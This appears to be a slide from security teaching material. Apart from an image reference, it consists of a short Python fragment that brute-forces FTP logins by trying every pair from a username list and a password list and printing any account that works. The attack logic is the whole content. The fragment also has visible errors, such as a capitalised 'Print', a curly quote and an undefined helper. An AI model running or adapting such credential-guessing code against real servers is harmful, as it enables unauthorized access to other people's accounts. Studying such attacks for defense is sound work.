

# # brute force code here

Print("\n" + ftpsvr + ": Brute forcing FTP server...”)
userlistfile = open("userlist", "r")
for user in userlistfile.readlines():
  passlistfile = open("passlist", "r")
  for password in passlistfile.readlines():
    user = user.rstrip()
    password = password.rstrip()
    print("[.] Trying user: " + user + " password: " + password)
    brute_result = ftp_brute(ftpsvr, user, password)
    if brute_result == True:
      print("[+] FOUND ACCOUNT User: " + user + " Password: " + password)